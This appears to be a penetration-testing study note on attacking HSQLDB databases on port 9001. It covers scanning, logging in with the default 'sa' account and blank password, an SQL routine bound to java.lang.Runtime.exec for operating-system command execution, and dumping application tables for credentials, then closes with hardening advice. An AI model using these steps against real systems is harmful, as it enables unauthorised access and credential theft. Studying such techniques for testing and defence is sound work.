

# 72 - HSQLDB (Port 9001) Pentesting

## 1. Executive Summary

HSQLDB (HyperSQL) is a popular Java SQL database, often embedded in Java apps, default network port **TCP 9001**. The default account is **`sa` with a blank password**. Because it's a Java engine, an authenticated attacker can call **Java language routines** to reach `java.lang.Runtime` → **command execution** on the host. It usually binds to localhost / in-memory, so finding it on the network typically means you already have a foothold and are **escalating privileges** by abusing the DB's Java capabilities.

## 2. Protocol Overview & Architecture

HSQLDB speaks a JDBC wire protocol (`jdbc:hsqldb:hsql://ip/DBNAME`). It supports defining SQL routines backed by Java methods; older/permissive configs let any user invoke arbitrary static Java methods (e.g. `java.lang.Runtime.getRuntime().exec(...)`) directly from SQL — the RCE primitive. Default `sa`/blank credentials make this trivial when reachable.

## 3. Enumeration & Footprinting

```bash
nmap -sV -p 9001 <IP>     # 'HSQLDB JDBC (Network Compatibility Version ...)'
# Hunt for creds if you already have a foothold:
grep -rP 'jdbc:hsqldb.*password.*' /path/to/app 2>/dev/null
```

## 4. Exploitation Deep Dive

### 4.1 Connect with Default/Weak Creds
Download `hsqldb.jar` and use the bundled SQL tool:
```bash
java -jar hsqldb.jar            # DatabaseManagerSwing GUI
# URL: jdbc:hsqldb:hsql://<IP>/<DBNAME>   user: sa   password: (blank)
```

### 4.2 RCE via Java Routine
Define/alias a Java method and call it to run OS commands:
```sql
CREATE PROCEDURE exec_cmd(IN cmd VARCHAR(255))
  LANGUAGE JAVA DETERMINISTIC NO SQL
  EXTERNAL NAME 'CLASSPATH:java.lang.Runtime.exec';
CALL exec_cmd('id');
-- or invoke java.lang.Runtime.getRuntime().exec via a function alias
```
Execution runs as the user owning the HSQLDB/JVM process.

### 4.3 Read Data / Pivot Creds
Dump app tables (`SELECT * FROM ...`) — embedded app DBs often hold credentials and tokens for higher-value targets.

## 5. Mermaid Attack Flow



## 6. Post-Exploitation
- RCE as the JVM/service account → local privilege escalation.
- App table data → creds for other services.

## 7. Defense & Hardening
1. Set a strong password for `sa`; remove blank/default creds.
2. Restrict Java routine creation/invocation; run HSQLDB with least privilege.
3. Bind to localhost; firewall 9001; don't expose embedded DBs on the network.
4. Keep HSQLDB updated.

## 8. Chaining Opportunities
- Reached after exploiting another service → this note is a **privesc** step → **[[08 - Linux Privilege Escalation]]**.
- Same Java-RCE family as **[[43 - Java RMI (Ports 1099-1098) Pentesting]]**.

## 9. Related Notes
- [[73 - Amazon Redshift (Port 5439) Pentesting]]
- [[11 - MySQL (Port 3306) Pentesting]]

## 10. Tools
`hsqldb.jar` (DatabaseManagerSwing), JDBC clients, `nmap`.
